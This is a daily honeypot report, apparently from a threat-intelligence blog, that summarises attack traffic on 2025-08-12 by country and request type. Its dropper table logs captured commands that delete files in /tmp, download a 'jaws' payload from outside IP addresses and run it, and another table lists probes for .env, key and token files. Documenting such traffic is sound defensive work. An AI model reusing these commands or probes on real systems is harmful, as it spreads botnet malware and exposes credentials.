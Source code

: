 ```yaml
---
title: "Report: 2025-08-12 "
date: 2025-08-12
desciption: "Report: 2025-08-12" 
tags: [repport, daily]
---
```



# Daily Report: 2025-08-12 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 19 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1060 requests were recorded during the day, originating from 3 different countries, with a peak of 608 requests coming from RU.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                      |
|:----------------|:-----------------------------------------------------------------------------|
| 8.219.176.71    | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |
| 123.139.117.155 | GET /shell?cd+/tmp;rm+-rf+*;wget+196.251.86.86/jaws;sh+/tmp/jaws HTTP/1.1    |
| 156.194.91.248  | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.150.159/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                              |
|----:|----------------------:|:-----------------------------------------------------|
| 300 |                     1 | GET /app/rules/.env HTTP/1.1                         |
| 305 |                     1 | GET /admin/.env.aws HTTP/1.1                         |
| 306 |                     1 | GET /__tests__/.env HTTP/1.1                         |
| 308 |                     1 | GET /admin/.env.crt HTTP/1.1                         |
| 312 |                     1 | GET /admin/.env.key HTTP/1.1                         |
| 313 |                     1 | GET /admin/.env.log HTTP/1.1                         |
| 314 |                     1 | GET /admin/.env.old HTTP/1.1                         |
| 315 |                     1 | GET /admin/.env.pem HTTP/1.1                         |
| 316 |                     1 | GET /admin/.env.tmp HTTP/1.1                         |
| 317 |                     1 | GET /admin/.env.uat HTTP/1.1                         |
| 318 |                     1 | GET /app/.env.azure HTTP/1.1                         |
| 319 |                     1 | GET /config/.env.db HTTP/1.1                         |
| 324 |                     1 | GET /admin/.env.gcp HTTP/1.1                         |
| 341 |                     1 | GET /api/.env_1.bak HTTP/1.1                         |
| 345 |                     1 | GET /ci/config/.env HTTP/1.1                         |
| 349 |                     1 | GET /@fs/.env?raw?? HTTP/1.1                         |
| 350 |                     1 | GET /app/.env.token HTTP/1.1                         |
| 489 |                     1 | \x00\x0E8\x95PB\x19B\xAE/\xB1\x00\x00\x00\x00\x00    |
| 604 |                     1 | \x00\x0E8\xCCg\xBFW\xB6\x89\xAEf\x00\x00\x00\x00\x00 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   608 | RU                 |
|  1 |                   161 | GB                 |
|  2 |                    69 | US                 |
|  3 |                    62 | DE                 |
|  4 |                    49 | SG                 |
|  5 |                    22 | NL                 |
|  6 |                    22 | BG                 |
|  7 |                    17 | SC                 |
|  8 |                     5 | VN                 |
|  9 |                     5 | HK                 |
| 10 |                     5 | CN                 |
| 11 |                     5 | AD                 |
| 12 |                     4 | HU                 |
| 13 |                     4 | ZA                 |
| 14 |                     4 | PL                 |
| 15 |                     4 | IN                 |
| 16 |                     3 | BR                 |
| 17 |                     2 | RO                 |
| 18 |                     2 | LT                 |
| 19 |                     2 | JP                 |
| 20 |                     1 | NG                 |
| 21 |                     1 | BE                 |
| 22 |                     1 | ID                 |
| 23 |                     1 | EG                 |
| 24 |                     1 | IR                 |
